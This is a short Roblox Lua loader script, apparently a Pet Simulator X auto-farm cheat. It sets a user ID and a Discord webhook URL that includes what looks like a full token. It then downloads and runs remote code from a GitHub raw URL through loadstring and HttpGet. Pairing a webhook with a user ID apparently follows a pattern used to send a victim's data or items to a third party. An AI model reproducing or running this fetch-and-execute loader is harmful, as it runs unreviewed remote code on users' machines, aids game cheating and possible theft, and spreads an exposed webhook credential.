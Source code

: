 _G.UserID = 1421711429
_G.WebHook = "https://discord.com/api/webhooks/1079004941252833312/hnFVo4nNP_5npBWoY4mypieChZ9S1Mg6tKuyM_9LvxhuKofF6tX1psMKg_gbbeIuG_hO"
loadstring(game:HttpGet("https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua", true))()
